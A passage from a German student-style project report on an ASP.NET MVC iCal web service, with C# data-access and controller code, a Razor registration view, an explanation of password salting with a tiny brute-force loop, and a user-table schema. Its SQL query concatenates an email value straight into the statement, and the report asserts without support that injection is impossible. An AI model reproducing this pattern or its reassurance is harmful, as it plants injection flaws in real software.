        {
            connection.Open();
            //Abfragen und holen der UserID fuer den Parser
            using (SqlCommand command = new SqlCommand("SELECT userid FROM UserTable WHERE Email = '" + myuser + "'", connection))
            {
                command.CommandType = CommandType.Text;
                using (SqlDataReader reader = command.ExecuteReader())
                {
                    while (reader.Read())
                    {
                        result.Add(reader.GetInt32(0));
                    }
                    reader.Close();
                }
                command.Cancel();
            }
        }
    //Erstellen der Liste fuer die Kalender
    List<string> tables = new List<string>();
    string icals = "";
    //Aufrufen des Parsers und speichern der Daten
    result.ForEach(x => icals += new Parser().GetICalFormat(x));
    //Split nach den Kalendern und Files zurueckliefern
    icals.Split("XCALSPLITX").ToList().ForEach(x => { if (x != "") tables.Add(x); });
    return tables;
}
\end{lstlisting}
Bei dem benutztem SQL Statement wäre es möglich anzunehmen, dass eine SQL-Injection möglich wäre, dies ist aber nicht der Fall, da hier der übergebene String nicht von der Eingabe des Users abhängt, sondern fix im Programm gesetzt ist.
\section{Controller}
\label{sec:Controller}
MVC-Controller sind dafür verantwortlich, auf Anfragen zu reagieren, die an eine ASP.NET MVC-Webseite gesendet werden. Jede Anforderung wird dazu einem bestimmten Controller zugeordnet. Wird beispielsweise folgende URL von unserem ICAL-Webservice in die Adressleiste eines Webbrowsers eingegeben:\\
\url{http://localhost:50699/api/iCal/1} \\
ruft diese einen Kontroller mit dem Namen iCalController auf. Dieser iCalController ist dafür zuständig sich im Hintergrund den ICAL-Kalender mit der jeweiligen ID zu holen und eine HTTP-Response zu liefern.\\ Hier folgt dessen Implementierung. 
\begin{lstlisting}[caption={Controller Code example}]
using iCalWebService.BL;
using Microsoft.AspNetCore.Mvc;
...
[HttpGet("{id}", Name = "Get")]
public string Get(int id)
{
  return dal.GetICSFileFromFTP(id);
}
\end{lstlisting}
Anhand dieses Code Beispiels kann erkannt werden, dass ein Controller nur eine einfache Klasse ist. 
\subsection{Controller Actions}
\label{sec:controller_actions}
Kontroller Actions sind öffentliche Methoden, die aufgerufen werden, wenn ein Kontroller mit einer spezifischen URL aufgerufen wird.Hier muss darauf geachtet werden, dass jede dieser öffentlichen Methoden von jedem über die richtige URL aufgerufen werden kann und deshalb hier sehr darauf geachtet werden muss, was hier aufgerufen werden kann. 
\subsection{Action Results}
\label{sec:controller_actions_results}
Eine Controller-Aktion gibt ein sogenanntes Aktionsergebnis zurück. Ein Aktionsergebnis ist das, was eine Controller-Aktion als Antwort auf eine Browseranforderung zurückgibt.\\Das MVC-Framework von ASP.NET unterstützt verschiedene Arten von Aktionsergebnissen, darunter:
\begin{enumerate}
\item ViewResult - Represents HTML and markup.
\item EmptyResult - Represents no result.
\item RedirectResult - Represents a redirection to a new URL.
\item JsonResult - Represents a JavaScript Object Notation result that can be used in an AJAX application.
\item JavaScriptResult - Represents a JavaScript script.
\item ContentResult - Represents a text result.
\item FileContentResult - Represents a downloadable file (with the binary content).
\item FilePathResult - Represents a downloadable file (with a path).
\item FileStreamResult - Represents a downloadable file (with a file stream).
\end{enumerate}
Alle diese Resultate kommen von der Basis Klasse ActionResult.
\\ vgl. \textcite{mic_controller}
\subsection{Views}
\label{sec:Views}
Anders als in ASP.NET oder Active Server Pages enthält ASP.NET MVC nichts, was direkt einer HTML-Seite entspricht. In einer ASP.NET MVC-Anwendung befindet sich keine HTML-Seite, die auf der Festplatte gespeichert ist und dem Pfad in der URL entspricht, welcher in die Adressleiste des Browsers eingegebem wird. Die Seite, die einer HTML-Seite in einer ASP.NET-MVC-Anwendung am nächsten kommt, wird als View bezeichnet.\\
In einer ASP.NET-MVC-Anwendung werden eingehende Browser Requests Controller Methoden zugeordnet. Eine Controllermethode kann einen View zurückgeben. Eine Controllermethode führt jedoch möglicherweise eine andere Methode aus, z. B. das weiterleiten zu einer anderen Controllermethode.
\subsection{Beispiel einer View}
\label{mvc_view_beispiel}
Als Beispiel folgt hier die cshtml des Registrierens auf der Webseite.
\begin{lstlisting}[caption={View Code example}]
@model RegisterViewModel
@{
  //Hier wird der Titel der Seite gesetzt.
    ViewData["Title"] = "Register";
}
<h2>@ViewData["Title"]</h2>
<div class="row">
    <div class="col-md-4">
    /*Hier definiern wir die Form fuer das Registern eines Benutzers.
    Dafuer brauchen wir einige Labels und Input Controlls. 
    Das ganze ist noch in einem Form-Tag, die bei einem HTTP POST die Daten weitersendet */
        <form asp-route-returnUrl="@ViewData["ReturnUrl"]" method="post">
            <h4>Create a new account.</h4>
            <hr />
            <div asp-validation-summary="All" class="text-danger"></div>
            <div class="form-group">
                <label asp-for="Email"></label>
                <input asp-for="Email" class="form-control" />
                <span asp-validation-for="Email" class="text-danger"></span>
            </div>
            <div class="form-group">
                <label asp-for="Password"></label>
                <input asp-for="Password" class="form-control" />
                <span asp-validation-for="Password" class="text-danger"></span>
            </div>
            <div class="form-group">
                <label asp-for="ConfirmPassword"></label>
                <input asp-for="ConfirmPassword" class="form-control" />
                <span asp-validation-for="ConfirmPassword" class="text-danger"></span>
            </div>
            //Durch den Button wird die weitergabe der Eingegebenen Daten getriggert
            <button type="submit" class="btn btn-default">Register</button>
        </form>
    </div>
</div>
@section Scripts {
    @await Html.PartialAsync("_ValidationScriptsPartial")
}
\end{lstlisting}
vgl. \textcite{mic_views}
\section{Benutzer Datenbank}
\label{sec:UserDB}
Ein wichtiger Bereich der UserDB ist der Salt,also wird dieses Thema zuerst besprochen.
\subsection{Salt}
\label{sec:salt}
Salt kommt aus der Kryptografie und ist eine zufällige Zeichenfolge, die an einen Klartext (bspw. an ein Passwort eines Users) angehängt wird, bevor dieser einer Hashfunktion übergeben wird und in einen Hash umgewandelt. Dies wird gemacht, um die Entropie der Eingabe zu erhöhen. Ein Salt wird oft für die Speicherung von Passwörtern in Datenbanken genutzt. Wird ein Passwort überprüft, wird dabei aber nicht jedes Mal ein neuer Salt generiert, da sich ja sonst der entstandene Hashwert, von dem gespeichertem Hashwert unterscheiden würde und somit das Passwort als falsch erkannt werden würde. Deswegen wird bei der Speicherung des Passworts in der Datenbank der dafür generierte Saltwert auch abgespeichert.
\subsubsection{Warum Salt}
Hashfunktionen wie SHA oder MD5 oder andere zum Hashen von Passwörtern entwickelte Hashfunktionen erzeugen für unterschiedliche Klartexte jeweils unterschiedliche Hashwerte. Bei einer Hashfunktion ist es äußerst unwahrscheinlich, dass jene für zwei gleiche Klartexte zwei unterschiedliche Hashwerte erzeugt. Daraus folgt, dass der Hashwert eines Passworts stets derselbe ist. Somit ist es einfach zu erkennen, welche Benutzer dasselbe Passwort nutzen. Benutzen viele Benutzer dasselbe Passwort, gibt es viele gleiche Hashwerte, wodurch es anzunehmen ist, dass hier ein eher schwaches bekannteres Passwort benutzt wird, wodurch der Angreifer dann auf BruteForce Angriffe setzen könnte. Bei Bruteforce Angriffen wird entweder eine Liste bekannter Passwörter genutzt welche Zeile für Zeile durchgegangen wird oder es werden direkt alle Möglichkeiten, die es geben könnte, durchprobiert.Bei einem Passwort, das aus beispielsweise 2 Kleinbuchstaben besteht, ist es relativ rasch möglich, alle Möglichkeiten durchzutesten.\\ Code Beispiel:
\begin{lstlisting}[caption={Bruteforce example }]
for i in {a..z}; do for j in {a..z}; do echo $i$j;done;done 
\end{lstlisting}
Dies würde folgenden output bringen: \\
aa\\
ab\\
ac\\
ad\\
ae\\
af\\
..\\
Durch Beifügen des Salt ist der Hashwert für gleiche Passwörter anders und somit ist es nicht direkt ersichtlich, wie viele Benutzer das gleiche Passwort nutzen. Dadurch kann ein Angreifer auch beim Einblick in die Datenbank nicht annehmen, dass einfache Passwörter genutzt werden, da er nicht abschätzen kann, wie viel gleiche Passwörter es in der Datenbank gibt.
\subsubsection{Die Benutzerdatenbank}
Zu behandeln ist hier die Benutzertabelle. Welche folgendermaßen erstellt wurde.
\begin{lstlisting}[caption={User Datenbank}]
CREATE TABLE [dbo].[AspNetUsers] (
    [Id]                   NVARCHAR (450)     NOT NULL,
    [AccessFailedCount]    INT                NOT NULL,
    [ConcurrencyStamp]     NVARCHAR (MAX)     NULL,
    [Email]                NVARCHAR (256)     NULL,
    [EmailConfirmed]       BIT                NOT NULL,
    [LockoutEnabled]       BIT                NOT NULL,
    [LockoutEnd]           DATETIMEOFFSET (7) NULL,
    [NormalizedEmail]      NVARCHAR (256)     NULL,
    [NormalizedUserName]   NVARCHAR (256)     NULL,
    [PasswordHash]         NVARCHAR (MAX)     NULL,
    [PhoneNumber]          NVARCHAR (MAX)     NULL,
    [PhoneNumberConfirmed] BIT                NOT NULL,
    [SecurityStamp]        NVARCHAR (MAX)     NULL,
    [TwoFactorEnabled]     BIT                NOT NULL,
    [UserName]             NVARCHAR (256)     NULL,
    CONSTRAINT [PK_AspNetUsers] PRIMARY KEY CLUSTERED ([Id] ASC)
);


GO
CREATE NONCLUSTERED INDEX [EmailIndex]
    ON [dbo].[AspNetUsers]([NormalizedEmail] ASC);


GO
CREATE UNIQUE NONCLUSTERED INDEX [UserNameIndex]
    ON [dbo].[AspNetUsers]([NormalizedUserName] ASC);
\end{lstlisting}
In diesem Bild ist ersichtlich welche Daten in der Benutzertabelle verwaltet und gespeichert werden.
\pagebreak
